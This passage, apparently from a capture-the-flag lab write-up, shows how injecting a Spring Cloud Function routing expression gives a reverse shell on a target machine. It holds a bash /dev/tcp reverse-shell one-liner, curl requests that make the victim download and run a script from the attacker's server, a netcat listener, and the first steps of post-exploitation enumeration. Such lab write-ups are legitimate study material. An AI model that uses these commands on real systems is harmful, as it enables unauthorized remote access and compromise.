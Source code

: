 By chaining the 2 exploits in this application together, the user can get a reverse shell by setting up http server and having the victim read the reverse shell directly from the server and writing the response to the disk.

## Reverse Shell
From here a reverse shell was created on the attacker machine with `echo "/bin/bash -i >& /dev/tcp/10.10.16.15/4242 0>&1" > shell.sh`

Next a http server was started with `python3 -m http.server 8081`

The file was then uploaded to the victim machine by executing the following request.
`curl -X POST http://10.10.11.204:8080/functionRouter -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('curl http://10.10.16.15:8081/shell.sh -o /tmp/shell.sh')" --data-raw -v`

A netcat session was then started with `nc -nvlp 4242`.
The reverse shell was then executed by modifying the last command.
``curl -X POST http://10.10.11.204:8080/functionRouter -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('/bin/bash /tmp/shell.sh')" --data-raw -v``

## Privesc
As a result from the last command, the user now has a reverse shell.
```go
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.204] 35468
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
frank
bash-5.0$ 
```

Analyzing the home directory, the following output below shows a directory named .m2 in frank which contains a settings.xml file.
```go
ls -al
total 32
drwxr-xr-x 6 frank frank 4096 Apr  5 02:29 .
drwxr-xr-x 4 root  root  4096 Feb  1 18:38 ..
lrwxrwxrwx 1 root  root     9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1 18:38 .cache
drwx------ 3 frank frank 4096 Apr  5 02:29 .gnupg
drwxr-xr-x 3 frank frank 4096 Feb  1 18:38 .local
drwx------ 2 frank frank 4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
bash-5.0$ cd .m2
cd .m2
bash-5.0$ ls
ls
settings.xml
```
